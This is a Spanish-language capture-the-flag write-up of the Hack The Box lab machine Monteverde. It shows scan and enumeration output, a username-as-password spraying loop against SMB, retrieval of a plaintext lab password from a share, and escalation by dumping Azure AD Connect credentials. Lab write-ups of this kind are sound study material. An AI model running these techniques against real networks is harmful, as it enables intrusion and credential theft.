


Hack The Box - Monteverde [Active]

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.Nombre Monteverde OS Windows Puntos 30 Dificultad Media IP 10.10.10.172 Maker egre55 NMAP
Escaneo de puertos tcp/udp y servicios con nmap.
# Nmap 7.80 scan initiated Sat Jan 18 18:57:43 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.172 Nmap scan report for 10.10.10.172 Host is up (0.26s latency). Not shown: 65517 filtered ports PORT STATE SERVICE VERSION 53/tcp open domain? | fingerprint-strings: | DNSVersionBindReqTCP: | version |_ bind 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-19 01:11:44Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name) 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ldapssl? 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name) 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-server-header: Microsoft-HTTPAPI/2.0 |_http-title: Not Found 9389/tcp open mc-nmf .NET Message Framing 49667/tcp open msrpc Microsoft Windows RPC 49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 49670/tcp open msrpc Microsoft Windows RPC 49671/tcp open msrpc Microsoft Windows RPC 49702/tcp open msrpc Microsoft Windows RPC 49775/tcp open msrpc Microsoft Windows RPC 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port53-TCP:V=7.80%I=7%D=1/18%Time=5E23AA58%P=x86_64-pc-linux-gnu%r(DNSV SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\ SF:x04bind\0\0\x10\0\x03"); Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: |_clock-skew: 10m36s | smb2-security-mode: | 2.02: |_ Message signing enabled and required | smb2-time: | date: 2020-01-19T01:14:10 |_ start_date: N/A Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sat Jan 18 19:05:11 2020 -- 1 IP address (1 host up) scanned in 448.85 secondsENUM4LINUX
Vemos que tenemos muchos puertos por enumerar vamos a iniciar con windows en samba con enum4linux, enumerando los usuarios dentro de la maquina.
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jan 18 19:15:47 2020 ========================== | Target Information | ========================== Target ........... 10.10.10.172 RID Range ........ 500-550,1000-1050 Username ......... '' Password ......... '' Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none ==================================================== | Enumerating Workgroup/Domain on 10.10.10.172 | ==================================================== [E] Can't find workgroup/domain ============================================ | Nbtstat Information for 10.10.10.172 | ============================================ Looking up status of 10.10.10.172 No reply from 10.10.10.172 ===================================== | Session Check on 10.10.10.172 | ===================================== [+] Server 10.10.10.172 allows sessions using username '', password '' [+] Got domain/workgroup name: =========================================== | Getting domain SID for 10.10.10.172 | =========================================== Domain Name: MEGABANK Domain Sid: S-1-5-21-391775091-850290835-3566037492 [+] Host is part of a domain (not a workgroup) ====================================== | OS information on 10.10.10.172 | ====================================== [+] Got OS info for 10.10.10.172 from smbclient: [+] Got OS info for 10.10.10.172 from srvinfo: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED ============================= | Users on 10.10.10.172 | ============================= index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2 Name: AAD_987d7f2f57d2 Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE. index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos Name: Dimitris Galanos Desc: (null) index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest Name: (null) Desc: Built-in account for guest access to the computer/domain index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope Name: Mike Hope Desc: (null) index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary Name: Ray O'Leary Desc: (null) index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs Name: SABatchJobs Desc: (null) index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan Name: Sally Morgan Desc: (null) index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata Name: svc-ata Desc: (null) index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec Name: svc-bexec Desc: (null) index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp Name: svc-netapp Desc: (null) user:[Guest] rid:[0x1f5] user:[AAD_987d7f2f57d2] rid:[0x450] user:[mhope] rid:[0x641] user:[SABatchJobs] rid:[0xa2a] user:[svc-ata] rid:[0xa2b] user:[svc-bexec] rid:[0xa2c] user:[svc-netapp] rid:[0xa2d] user:[dgalanos] rid:[0xa35] user:[roleary] rid:[0xa36] user:[smorgan] rid:[0xa37] ========================================= | Share Enumeration on 10.10.10.172 | ========================================= Sharename Type Comment --------- ---- ------- SMB1 disabled -- no workgroup available [+] Attempting to map shares on 10.10.10.172 ==================================================== | Password Policy Information for 10.10.10.172 | ==================================================== [+] Attaching to 10.10.10.172 using a NULL share [+] Trying protocol 445/SMB... [+] Found domain(s): [+] MEGABANK [+] Builtin [+] Password Info for Domain: MEGABANK [+] Minimum password length: 7 [+] Password history length: 24 [+] Maximum password age: 41 days 23 hours 53 minutes [+] Password Complexity Flags: 000000 [+] Domain Refuse Password Change: 0 [+] Domain Password Store Cleartext: 0 [+] Domain Password Lockout Admins: 0 [+] Domain Password No Clear Change: 0 [+] Domain Password No Anon Change: 0 [+] Domain Password Complex: 0 [+] Minimum password age: 1 day 4 minutes [+] Reset Account Lockout Counter: 30 minutes [+] Locked Account Duration: 30 minutes [+] Account Lockout Threshold: None [+] Forced Log off Time: Not Set [+] Retieved partial password policy with rpcclient: Password Complexity: Disabled Minimum Password Length: 7 ============================== | Groups on 10.10.10.172 | ============================== [+] Getting builtin groups: group:[Pre-Windows 2000 Compatible Access] rid:[0x22a] group:[Incoming Forest Trust Builders] rid:[0x22d] group:[Windows Authorization Access Group] rid:[0x230] group:[Terminal Server License Servers] rid:[0x231] group:[Users] rid:[0x221] group:[Guests] rid:[0x222] group:[Remote Desktop Users] rid:[0x22b] group:[Network Configuration Operators] rid:[0x22c] group:[Performance Monitor Users] rid:[0x22e] group:[Performance Log Users] rid:[0x22f] group:[Distributed COM Users] rid:[0x232] group:[IIS_IUSRS] rid:[0x238] group:[Cryptographic Operators] rid:[0x239] group:[Event Log Readers] rid:[0x23d] group:[Certificate Service DCOM Access] rid:[0x23e] group:[RDS Remote Access Servers] rid:[0x23f] group:[RDS Endpoint Servers] rid:[0x240] group:[RDS Management Servers] rid:[0x241] group:[Hyper-V Administrators] rid:[0x242] group:[Access Control Assistance Operators] rid:[0x243] group:[Remote Management Users] rid:[0x244] group:[Storage Replica Administrators] rid:[0x246] [+] Getting builtin group memberships: Group 'IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs Group 'Guests' (RID: 546) has member: Couldn't lookup SIDs Group 'Incoming Forest Trust Builders' (RID: 557) has member: Could not initialise pipe samr. Error was NT_STATUS_INVALID_NETWORK_RESPONSE Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs Group 'Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs Group 'Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs Group 'Users' (RID: 545) has member: Couldn't lookup SIDs [+] Getting local groups: group:[Cert Publishers] rid:[0x205] group:[RAS and IAS Servers] rid:[0x229] group:[Allowed RODC Password Replication Group] rid:[0x23b] group:[Denied RODC Password Replication Group] rid:[0x23c] group:[DnsAdmins] rid:[0x44d] group:[SQLServer2005SQLBrowserUser$MONTEVERDE] rid:[0x44f] group:[ADSyncAdmins] rid:[0x451] group:[ADSyncOperators] rid:[0x452] group:[ADSyncBrowse] rid:[0x453] group:[ADSyncPasswordSet] rid:[0x454] [+] Getting local group memberships: Group 'ADSyncAdmins' (RID: 1105) has member: Couldn't lookup SIDs Group 'Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs [+] Getting domain groups: group:[Enterprise Read-only Domain Controllers] rid:[0x1f2] group:[Domain Users] rid:[0x201] group:[Domain Guests] rid:[0x202] group:[Domain Computers] rid:[0x203] group:[Group Policy Creator Owners] rid:[0x208] group:[Cloneable Domain Controllers] rid:[0x20a] group:[Protected Users] rid:[0x20d] group:[DnsUpdateProxy] rid:[0x44e] group:[Azure Admins] rid:[0xa29] group:[File Server Admins] rid:[0xa2e] group:[Call Recording Admins] rid:[0xa2f] group:[Reception] rid:[0xa30] group:[Operations] rid:[0xa31] group:[Trading] rid:[0xa32] group:[HelpDesk] rid:[0xa33] group:[Developers] rid:[0xa34] [+] Getting domain group memberships: Group 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary Group 'Trading' (RID: 2610) has member: MEGABANK\dgalanos Group 'Operations' (RID: 2609) has member: MEGABANK\smorgan Group 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator Group 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2 Group 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope Group 'Domain Guests' (RID: 514) has member: MEGABANK\Guest Group 'Domain Users' (RID: 513) has member: MEGABANK\Administrator Group 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt Group 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2 Group 'Domain Users' (RID: 513) has member: MEGABANK\mhope Group 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs Group 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata Group 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec Group 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp Group 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos Group 'Domain Users' (RID: 513) has member: MEGABANK\roleary Group 'Domain Users' (RID: 513) has member: MEGABANK\smorgan Group 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator ======================================================================= | Users on 10.10.10.172 via RID cycling (RIDS: 500-550,1000-1050) | ======================================================================= [E] Couldn't get SID: NT_STATUS_ACCESS_DENIED. RID cycling not possible. ============================================= | Getting printer info for 10.10.10.172 | ============================================= Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED enum4linux complete on Sat Jan 18 19:19:29 2020Vemos varios usuarios de los cuales no logramos obtener informacion que nos pudiesen ayudar a entrar en la maquina.
SMBMAP
Utilizamos la lista de usuarios junto con smbmap para verificar que alguno de ellos tenga permisos en alguno de los SHARENAMEs de la maquina utilizando el nombre de usuario como contraseña.
root@aoiri:~/htb/monteverde# while read USER; do echo $USER && smbmap -H 10.10.10.172 -u $USER -p "$USER"; done < users.txt roleary [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 dgalanos [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 smorgan [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 AAD_987d7f2f57d2 [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 mhope [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 Guest [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172 SABatchJobs [+] Finding open SMB ports.... [+] User SMB session established on 10.10.10.172... [+] IP: 10.10.10.172:445 Name: 10.10.10.172 Disk Permissions Comment ---- ----------- ------- ADMIN$ NO ACCESS Remote Admin . dr--r--r-- 0 Fri Jan 3 06:43:36 2020 . dr--r--r-- 0 Fri Jan 3 06:43:36 2020 .. azure_uploads READ ONLY C$ NO ACCESS Default share E$ NO ACCESS Default share . fr--r--r-- 3 Sun Dec 31 17:57:56 1600 InitShutdown fr--r--r-- 4 Sun Dec 31 17:57:56 1600 lsass fr--r--r-- 3 Sun Dec 31 17:57:56 1600 ntsvcs fr--r--r-- 3 Sun Dec 31 17:57:56 1600 scerpc fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-3b4-0 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 epmapper fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-1ec-0 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 LSM_API_service fr--r--r-- 3 Sun Dec 31 17:57:56 1600 eventlog fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-488-0 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 atsvc fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-6a4-0 fr--r--r-- 4 Sun Dec 31 17:57:56 1600 wkssvc fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-294-0 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-294-1 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 RpcProxy\49669 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 eddf3645116af5dd fr--r--r-- 3 Sun Dec 31 17:57:56 1600 RpcProxy\593 fr--r--r-- 4 Sun Dec 31 17:57:56 1600 srvsvc fr--r--r-- 3 Sun Dec 31 17:57:56 1600 spoolss fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-b54-0 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 netdfs fr--r--r-- 1 Sun Dec 31 17:57:56 1600 vgauth-service fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-280-0 fr--r--r-- 3 Sun Dec 31 17:57:56 1600 W32TIME_ALT fr--r--r-- 3 Sun Dec 31 17:57:56 1600 SQLLocal\MSSQLSERVER fr--r--r-- 2 Sun Dec 31 17:57:56 1600 sql\query fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-ba0-0 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER fr--r--r-- 1 Sun Dec 31 17:57:56 1600 CPFATP_6024_v4.0.30319 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132240333070920024.6024.DefaultAppDomain.miiserver fr--r--r-- 1 Sun Dec 31 17:57:56 1600 GoogleCrashServices\S-1-5-18 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 GoogleCrashServices\S-1-5-18-x64 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-bac-0 fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132240367071490977.1628.DefaultAppDomain.wsmprovhost IPC$ READ ONLY Remote IPC . dr--r--r-- 0 Thu Jan 2 16:05:27 2020 . dr--r--r-- 0 Thu Jan 2 16:05:27 2020 .. NETLOGON READ ONLY Logon server share . dr--r--r-- 0 Thu Jan 2 16:05:27 2020 . dr--r--r-- 0 Thu Jan 2 16:05:27 2020 .. dr--r--r-- 0 Thu Jan 2 16:05:27 2020 MEGABANK.LOCAL SYSVOL READ ONLY Logon server share . dr--r--r-- 0 Fri Jan 3 07:12:48 2020 . dr--r--r-- 0 Fri Jan 3 07:12:48 2020 .. dr--r--r-- 0 Fri Jan 3 07:15:23 2020 dgalanos dr--r--r-- 0 Fri Jan 3 07:41:18 2020 mhope dr--r--r-- 0 Fri Jan 3 07:14:56 2020 roleary dr--r--r-- 0 Fri Jan 3 07:14:28 2020 smorgan users$ READ ONLY svc-ata [+] Finding open SMB ports.... svc-bexec [+] Finding open SMB ports.... [!] Authentication error on 10.10.10.172 [!] Authentication error on 10.10.10.172Vemos que el usuario SABatchJobs tiene permisos de Lectura en azure_uploads y users$.
USER mhope - Azure PSADPasswordCredential
Utilizamos las credenciales para enumerar
users$con smbclient, encontramos un archivo de azure que contiene la contraseña en texto plano en un archivo de XML.root@aoiri:~/htb/monteverde# smbclient \\\\10.10.10.172\\users$ -U SABatchJobs Enter WORKGROUP\SABatchJobs's password: Try "help" to get a list of possible commands. smb: \> dir . D 0 Fri Jan 3 07:12:48 2020 .. D 0 Fri Jan 3 07:12:48 2020 dgalanos D 0 Fri Jan 3 07:12:30 2020 mhope D 0 Fri Jan 3 07:41:18 2020 roleary D 0 Fri Jan 3 07:10:30 2020 smorgan D 0 Fri Jan 3 07:10:24 2020 524031 blocks of size 4096. 519955 blocks available smb: \> cd mhope smb: \mhope\> dir . D 0 Fri Jan 3 07:41:18 2020 .. D 0 Fri Jan 3 07:41:18 2020 azure.xml AR 1212 Fri Jan 3 07:40:23 2020 524031 blocks of size 4096. 519955 blocks available smb: \mhope\> get azure.xml getting file \mhope\azure.xml of size 1212 as azure.xml (1.4 KiloBytes/sec) (average 1.4 KiloBytes/sec) smb: \mhope\> exit root@aoiri:~/htb/monteverde# cat azure.xml ��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"> <Obj RefId="0"> <TN RefId="0"> <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T> <T>System.Object</T> </TN> <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString> <Props> <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT> <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT> <G N="KeyId">00000000-0000-0000-0000-000000000000</G> <S N="Password">4n0therD4y@n0th3r$</S> </Props> </Obj> </Objs>Credenciales: mhope:4n0therD4y@n0th3r$EvilWinRm
Ya que el puerto de winrm esta abierto utilizamos las credenciales que tenemos junto con evilwinrm, obtenemos una shell y nuestra flag user.txt.

PRIVILEGE ESCALATION
Utilizamos
whoami /allpara ver los permisos, grupos y privilegios que el usuario tiene.*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /all USER INFORMATION ---------------- User Name SID ============== ============================================ megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601 GROUP INFORMATION ----------------- Group Name Type SID Attributes =========================================== ================ ============================================ ================================================== Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group MEGABANK\Azure Admins Group S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group Mandatory Label\Medium Plus Mandatory Level Label S-1-16-8448 PRIVILEGES INFORMATION ---------------------- Privilege Name Description State ============================= ============================== ======= SeMachineAccountPrivilege Add workstations to domain Enabled SeChangeNotifyPrivilege Bypass traverse checking Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Enabled USER CLAIMS INFORMATION ----------------------- User claims unknown. Kerberos support for Dynamic Access Control on this device has been disabled. *Evil-WinRM* PS C:\Users\mhope\Documents>Vemos que mhope pertenece al grupo de
Azure Admins, despues de investigar acerca de este grupo encontramos un post de XPN que explica como se puede obtener la contraseña y usario desde la base de datos del catalogo de ADSync de azure.Utilizamos el script azuread_decrypt_msol que viene adjunto al post, modificandolo para que pueda hacer el query a la base de datos local.
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source = localhost; Initial Catalog=ADSync; Trusted_Connection=True"
Utilizamos las credenciales en evil-winrm obtuvimos una shell y nuestra flag root.txt. 